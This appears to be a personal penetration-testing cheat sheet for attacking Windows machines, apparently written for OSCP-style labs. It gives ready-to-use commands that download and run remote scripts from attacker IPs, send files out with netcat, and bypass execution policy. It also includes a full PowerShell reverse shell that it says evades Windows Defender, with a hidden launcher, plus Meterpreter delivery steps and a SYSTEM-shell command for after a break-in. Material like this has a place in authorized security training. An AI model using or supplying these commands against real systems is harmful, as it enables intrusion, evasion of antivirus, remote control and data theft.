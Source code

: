 # Local Recon Tools

## Windows Native programs
Those programs can be found on every post Win10 machines:

* Control Panel: `control.exe`
* Windows Troubleshooting:  `C:\Windows\System32\control.exe /name Microsoft.Troubleshooting`
* User Account Control Settings: `UserAccountControlSettings.exe`
* Computer Management (Task Scheduler, Event Viewer ...): `compmgmt.msc`
* System Information: `msinfo32.exe`
* Ressource Monitor: `resmon.exe` 

## UAC

* check for UAC: `(Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System).EnableLUA`
* UAC can be bypassed using binary exploits

# Download and Upload stuff

## PS and cmd

### Download

1. `certutil -urlcache -split -f http://source.ip/payload.exe payload.exe`
2. Download the file in PS: 
`Invoke-WebRequest -Uri "url" -OutFile "dest"`
`curl http://xxx/file.xxx -o file.xxx`
3. Download and execute in PS: 
`powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('ip/src')"`

## smb share

* create share in kali
`python3 ~/OSCP_Tools/impacket/smbserver.py xxxshare . -smb2support -username xxx -password xxx`

* use in PS

```
#connect to share
New-SmbMapping -RemotePath '\\server' -Username "domain\username" -Password "password"

#copy

copy share_path target_dir

```
* use in cmd
```
net use \\server /user:domain\username password
```

## Upload

* Powershell
```
#run receiver on listener

nc -lvnp 443 > output.xxx

#send file
Get-Content file.xxx | .\nc.exe IP PORT

#bypass execution policy  if got admin
Set-ExecutionPolicy Unrestricted
```



# Find Stuff

* cmd: `dir /s /b c:\filename` find filename in c: drive recursively
* ps: `Get-Childitem –Path C:\ -Include *filetolookfor* -Exclude *.JPG,*.MP3,*.TMP -File -Recurse -ErrorAction SilentlyContinue`

# Enumeration

## local enumeration

```
powershell.exe -exec bypass -C "IEX(New-Object System.Net.WebClient).DownloadString('http://xxx.xxx.xxx.xxx/Sherlock.ps1');Find-AllVulns"

powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://192.168.1.2:8000/PowerUp.ps1') ; Invoke-AllChecks"

powershell.exe -ExecutionPolicy Bypass -noLogo -Command "IEX(New-Object Net.WebClient).downloadString('http://192.168.1.2:8000/powerup.ps1') ; Invoke-AllChecks"

powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://192.168.1.2:8000/Sherlock.ps1') ; Find-AllVulns"
```
## remote enumeration

* enum4linux

## If you have your ps1 file downloaded to the victim machine then run using this
```
c:\>powershell.exe -exec bypass -Command "& {Import-Module .\Sherlock.ps1; Find-AllVulns}"

c:\>powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"
```

# Reverse Shells

## Powershell
* This is the most basic reverse shell not detectable by Windows Defender
* Replace xxx as needed:
* raw.ps1

```
$client = New-Object System.Net.Sockets.TCPClient('192.168.219.xxx',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PSReverseShell# ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}$client.Close();
```

* launch on target
```
powershell.exe -NoP -NonI -W Hidden -Exec Bypass "IEX(New-Object Net.WebClient).downloadString('http://192.168.219.xxx/raw.ps1')"
```


## Meterpreter
This shell works even on Windows 11 but needs MSF

1. SMB delivery: `use windows/smb/smb/delivery`
2. Payload: `set payload windows/meterpreter/reverse_tcp`
3. Configure all options in MSF and `exploit`
4. During exploit execution MSF will ask you to run following on target machine: `rundll32.exe \\attacker_ip\PJSK\test.dll,0`
5. Select active session
6. Get shell: `shell`

# Escalation

## Standard Approach
* Download Winpeas: see github
* Follow HackTricks: https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services
* If it does not help, go for advances techniques

## SMB

see SMB cheatsheet

## Exposed GPP Password

* Article to read: https://grimhacker.com/2015/04/10/gp3finder-group-policy-preference-password-finder/
* Use gp3finder tool once .xml file with cpassword is founf
`docker run grimhacker/gp3finder -D edBSHOw...`

## Compiling Exploits for Windows on Kali

1. install mingw `apt install mingw-w64`
2. Compile for 64 bit

```
x86_64-w64-mingw32-gcc shell.c -o shell.exe
```
3. Compile for 32 bit
```
i686-w64-mingw32-gcc shell.c -o shell.exe
```

# Post exploitation

* Once Admin privileges obtained get SYSTEM shell
`psexec -accepteula -sid cmd.exe`

* look for stuff
`Get-Childitem –Path C:\ -Include *.txt -File -Recurse -ErrorAction SilentlyContinue`

